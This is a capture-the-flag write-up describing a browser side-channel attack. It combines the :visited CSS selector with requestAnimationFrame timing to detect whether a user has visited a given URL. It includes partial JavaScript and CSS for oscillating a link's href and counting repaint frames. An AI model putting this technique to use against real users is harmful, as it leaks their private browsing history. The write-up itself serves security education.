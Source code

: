 
`X-Content-Type-Options` will basically raise errors since the endpoint returns `text/html` as a `content-type`, so loading tags with that will return 
`Refused to execute script from 'http://localhost:21111/test' because its MIME type ('text/html') is not executable, and strict MIME type checking is enabled.```

![image](https://github.com/ixSly/CTFs/assets/32583633/4a61004c-a905-4773-a7ab-f3bcb6de8acb)

# The Oracle
The intended solution was a bug, [reported](https://issues.chromium.org/issues/40091173) and actioned in chromium bugs, demonstrating how the leak is possible. The oracle leverages the `:visited` CSS selector to determine if a specific URL has been visited. By applying different styles to visited links, the browser reveals the visit status through performance differences. The process starts by defining a link with complex styles that make the browser work harder to render it
```css
#target {
    color: white;
    background-color: white;
    outline-color: white;
}
#target:visited {
    color: #feffff;
    background-color: #fffeff;
    outline-color: #fffffe;
}
```

The link's href is oscillated between the URL we want to leak and a known `unvisited URL` randomly generated, forcing the browser to repaint the link each time. 

```js
function generateUnvisitedUrl () {
    return 'https://' + Math.random() + '/' + Date.now();
}
.....
function startOscillatingHref(testUrl) {
    oscillateInterval = setInterval(function() {
        targetLink.href = isPointingToBasisUrl ? testUrl : basisUrl;
        isPointingToBasisUrl = !isPointingToBasisUrl;
    }, 0);
}

function stopOscillatingHref() {
    clearInterval(oscillateInterval);
    targetLink.href = basisUrl;
    isPointingToBasisUrl = true;
}
```

The performance is measured by counting the number of `requestAnimationFrame` callbacks, which indicates how often the browser repaints the element. If the link is visited, it takes longer to repaint due to the extra styles applied by the `:visited` selector:
```js
var tickCount = 0;
var tickRequestId;

function startCountingTicks() {
    tickRequestId = requestAnimationFrame(function tick() {
        ++tickCount;
        tickRequestId = requestAnimationFrame(tick);
    });
}

function stopCountingTicks() {
    cancelAnimationFrame(tickRequestId);
```